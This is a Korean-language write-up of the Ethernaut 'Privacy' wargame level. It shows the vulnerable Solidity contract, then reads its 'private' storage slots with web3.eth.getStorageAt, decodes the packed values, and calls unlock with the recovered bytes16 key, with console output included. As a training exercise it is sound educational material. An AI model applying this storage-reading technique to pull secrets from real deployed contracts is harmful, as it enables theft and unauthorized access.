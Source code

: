 https://teberr.notion.site/Ethernaut-Privacy-4212cbdaf3a14be69021fd015ec99757

![Privacy.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e2efc694-4bdc-48a9-97e3-b1f5eb2f8ee5/Privacy.png)

> 이 컨트랙트를 만든 사람은 스토리지 영역을 보호하기 위해서 주의를 기울였습니다.

이 컨트랙트를의 unlock 함수를 통해서 locked를 false로 만들어 주세요

힌트
- 스토리지가 어떻게 작동하는지 이해하기.
- 파라미터 파싱이 어떻게 이루어지는 지 이해하기
- 타입 캐스팅이 어떻게 이루어지는지 이해하기
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

# 코드 분석 및 공격

```solidity
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;
```

컨트랙트의 제작자가 private을 통해 데이터 값을 보호하려고 하였지만 스토리지에 저장이 되어 있기 때문에 web3.eth.getStorageAt(’컨트랙트주소,idx)를 통하여 스토리지에서 값을 불러올 수 있다.

```solidity
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',0)
'0x0000000000000000000000000000000000000000000000000000000000000001'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',1)
'0x00000000000000000000000000000000000000000000000000000000634bcf90'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',2)
'0x00000000000000000000000000000000000000000000000000000000cf90ff0a'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',3)
'0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',4)
'0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',5)
'0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a'
```

await를 통해 받아온 결과값은 총 32바이트이다.(2자리당 1바이트) 

각 결과 값을 상태변수들과 연관지어보자. 각 슬롯은 32바이트까지 수용할 수 있다.

```solidity
bool public locked = true;
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',0)
'0x0000000000000000000000000000000000000000000000000000000000000001'
```

bool 타입의 locked 상태 변수는 true로 값이 1인 것을 확인할 수 있다. ID가 32바이트이므로 새로운 슬롯으로 넘어간다.

```jsx
uint256 public ID = block.timestamp;
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',1)
'0x00000000000000000000000000000000000000000000000000000000634bcf90'

---------------------------------------------------------------------------------------
await contract.ID()
o {negative: 0, words: Array(3), length: 2, red: null}
	length : 2
	negative : 0
	red : null
	words : Array(3)
		0:55299984
		1:24
		length:3
		[[Prototype]] : Array(0)
	[[Prototype]] : Object
```

uint256 타입은 256비트(32바이트)이므로 32바이트에 할당된 공간에서 634bcf90이 들어있는 것을 확인할 수 있다. 

![55299984.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14728331-fe42-449d-bdfa-a02cb28412ed/55299984.png)

또한 ID 값은 public이므로 contract.ID를 통해 불러와본 결과 words의 첫번째 값에 55299984가 들어있는 것을 볼 수 있다. 이 값은 34bcf90으로 스토리지에서 불러온 값과 맨앞의 6만 제외하면 일치한다. 이로 인해 2번째 슬롯 스토리지 값도 확인하였다.

```jsx
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',2)
'0x00000000000000000000000000000000000000000000000000000000cf90ff0a'

```

이 곳은 왜 세개의 상태 변수를 같이 가져왔는지 의아할 수 있지만 솔리디티에서 스토리지가 많을 수록 소모되는 가스 비용이 늘어나기 때문에 스토리지를 아끼기 위해서 같이 저장이 될 수 있다. 

여기에 저장된 값은 cf90 ff 0a로 해석할 수 있다.

uint8의 경우 8비트로 1바이트(2칸)이고 uint 16은 16비트로 2바이트(2칸)이다. 

즉 cf90 ff 0a 는 각각 

flattening = 0a

denomination = ff

awkwardness = cf90으로 해석할 수 있다.

```jsx
bytes32[3] private data;

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',3)
'0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',4)
'0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',5)
'0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a'
```

배열 데이터는 항상 새 슬롯을 시작하므로 슬롯이 바뀐다.

남은 것은 byte32[3] data과 스토리지에서 불러온 세개의 값이므로 32바이트의 data 배열이 각각 대응됨을 알 수 있다.

data[0] = 0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5

data[1] = 0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338

data[2] = 0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a

```solidity
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
```

문제의 unlock을 풀기위해 필요한 데이터는 이중 data[2]이다.

즉 0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a 를 bytes16으로 강제 형변환한 값이 키값이다. 

bytes16으로 강제 형변환하면 데이터중 절반이 소실된다. 따라서

0x40af1e146f5fb9a53955628f83e3f619 만 남기고 소실이 되므로 이 값이 키값이 된다. 

즉 이 키값을 넣어서 unlock을 실행하자.

![unlock.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/28198def-77a3-42fe-907e-b78084f46a6d/unlock.png)

```jsx
await contract.unlock('0x40af1e146f5fb9a53955628f83e3f619')
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4
{tx: '0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4', receipt: {…}, logs: Array(0)}
```

실행하고 나서 다시 locked 상태변수를 확인해주자.

![unlocked.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/508bcdf8-8f86-4ec8-b7ea-3bda442c293e/unlocked.png)

```jsx
await contract.locked()
false
```

문제의 목적인 잠금을 해제하였으므로 인스턴스를 제출하자.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2788faf4-f2f2-4411-8f65-aa2058116f46/%EC%84%B1%EA%B3%B5.png)

성공하였음을 볼 수 있다.

# 문제 후기

private 키워드는 솔리디티 언어의 구성중 하나일 뿐이지 이더리움 블록체인 내에서 진정한 private은 없다.  

Web3의 getStorageAt함수는 스토리지에 있는 모든 것을 읽을 수 있다. 물론 최적화 규칙과 기술 때문에 원하는 것을 읽는게 조금 까다로울 수는 있다. 

실제 컨트랙트에서도 스토리지에서 값을 읽는것이 이번 문제보다 많이 복잡하지는 않다. 

더 자세하게 알고 싶다면 [https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925) 를 참고하면 좋다.
